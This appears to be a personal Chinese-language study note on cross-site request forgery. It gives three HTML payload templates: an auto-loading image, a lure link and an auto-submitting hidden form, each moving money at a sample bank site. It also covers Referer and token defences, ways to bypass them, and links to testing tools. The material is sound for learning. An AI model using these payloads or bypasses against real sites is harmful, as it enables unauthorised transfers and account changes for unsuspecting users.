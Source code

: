 

Cross-Site Request Forgery 跨站请求伪造
![](图片/Pasted%20image%2020241118092155.png)
- 修改账户信息 
- 利用管理员账号，上传木马文件 
- 传播蠕虫病毒（点击、扩散、点击……） 
- 和其他攻击手段配合，实现攻击，比如XSS、SQL注入
与xss（跨站脚本攻击）的区别
![](图片/Pasted%20image%2020241118092313.png)



payload （根据bank porn练习）
1. 通过图片的img src属性，自动加载，发起GET请求
```html
<img src="http://superbank.com/bank/transfer.php?nameid=20
 02&amount=1000" width="0" height="0">
```

2. 构建一个超链接，用户点击以后，发起GET请求
```html
    <a herf="http://superbank.com/transfer.php?amount=1000&
 to=jiangang" target="_bank">小姐姐在线视频聊天<a/>
```

3. 构建一个隐藏表单，用户访问，自动提交，发起POST请求

```html
<form action="http://superbank.com/withdraw" method=POST>
 <input type="hidden" name="account" value="xiaoming" />
 <input type="hidden" name="amount" value="1000" />
 <input type="hidden" name="to" value="jiangang" />
 </form>
 <script> document.forms[0].submit(); </script>
 ```

![](图片/Pasted%20image%2020241118094136.png)
csrf属于业务逻辑漏洞，攻击者没有盗用用户的信息和诱导用户进行操作，只要用户访问了攻击页面，攻击者就会伪造成用户向服务器发出请求。
特别注意<3>用户在没有登出A网站的情况下，访问攻击页面




防御
同源策略
Referer
![](图片/Pasted%20image%2020241118095920.png)
通过www.baidu.com访问
绕过方法：
- 注册该域名的子域名
- 通过burpsuite修改referer
- 可以直接删除referer（bp，`<meta name="referrer" content="never">`)请求头没有，服务器不会验证

cookie token
[使用Burp Suite 两种方式绕过 CSRF_TOKEN_bursuit +csrf token-CSDN博客](https://blog.csdn.net/slslslyxz/article/details/111302778)
部分绕过方法
（1）token没有和用户的session绑定  
如果服务器是直接弄了个token池，如果用户提交的请求中的token能和token池中的任意一个token对应上，就能认证通过的话，那么我们可以先去该网站登录，获取一个该网站的token值，然后在CSRF攻击请求上将这个token值添加上去，这样也可以绕过验证
（2）CSRF token没有绑定到指定用户的session上  
如果服务器没有将token值与用户的session绑定，并且能够让攻击者在受害者机器上设置cookie的功能，那么我们也可以通过，登录自己的账户获得cookie和对应的token值，然后将自己的cookie和token设置到受害者的电脑上，这样就可以绕过token的验证了




工具
[CSRF自动化测试-CSRFTester-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2148792)
[CSRF跨站请求伪造漏洞 && CSRFTester使用教程 - bcxc9405 - 博客园](https://www.cnblogs.com/bcxc/articles/17109586.html)



[CSRFTexter].(<file:///D:\CTF_something\CSRFTester-1.0\run.bat>)

